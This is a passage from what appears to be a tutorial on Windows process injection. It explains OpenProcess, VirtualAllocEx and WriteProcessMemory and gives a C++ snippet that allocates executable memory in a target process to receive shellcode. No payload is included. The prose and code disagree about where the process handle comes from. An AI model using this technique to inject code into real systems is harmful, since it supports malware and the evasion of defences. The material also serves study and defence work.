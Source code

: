 ```c
bInheritHandle (handle inheritance): // (Refers to whether resources or characteristics from a parent process are passed or shared with a child process. This parameter is a BOOLEAN and can be set to TRUE (to allow inheritance) or FALSE (to disallow it)).

dwProcessId (process ID): // (Specifies the ID of the process you want to open. This value is usually obtained by enumerating processes.)
```

## VirtualAllocEx:

After identifying the target process, we use the VirtualAllocEx function to allocate memory in the process's address space. This function lets us change the state of a memory region within the process’s virtual memory. That way, we can manage the memory allocation and set its permissions so the injected code has the right to read, write, and execute — which is needed to properly insert the payload.
```c
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,  // Process handle where the memory will be allocated
  [in, optional] LPVOID lpAddress,  // Base address (can be NULL)
  [in]           SIZE_T dwSize,  //Size of the memory to allocate
  [in]           DWORD  flAllocationType, // Allocation type
  [in]           DWORD  flProtect  // Memory protection (permissions)
);
```

### Example of the function applied in our context:

```c
 HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (processHandle == NULL) {
        std::cout << "[-] Failed to open process.\n";
        return 1;
    }
    std::cout << "[+] Open process.\n";

    LPVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (remoteBuffer == NULL) {
        std::cout << "[-] Failed to allocate memory.\n";
        return 1;
    }
    std::cout << "[+] Memory allocated to: " << remoteBuffer << std::endl;
```
The purpose of this part of the code is to reserve and commit a memory space in the target process. In pi.hProcess, the handle of the target process is provided, which was obtained through the CreateProcess function. The parameter sizeof(shellcode), which defines the size of the memory to be allocated, is the most critical element in this section.

---

## WriteProcessMemory:
This is a Windows API function that allows one process to write data into the memory of another process. It’s a key function for injecting shellcode into the target process and modifying its internal data.
```c
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,            // handle of the target process
  [in]  LPVOID  lpBaseAddress,       // base address where the data will be written
  [in]  LPCVOID lpBuffer,            // pointer to the data to be written
  [in]  SIZE_T  nSize,               // number of bytes to write
  [out] SIZE_T  *lpNumberOfBytesWritten // number of bytes actually written (optional)
);
```
```text 
```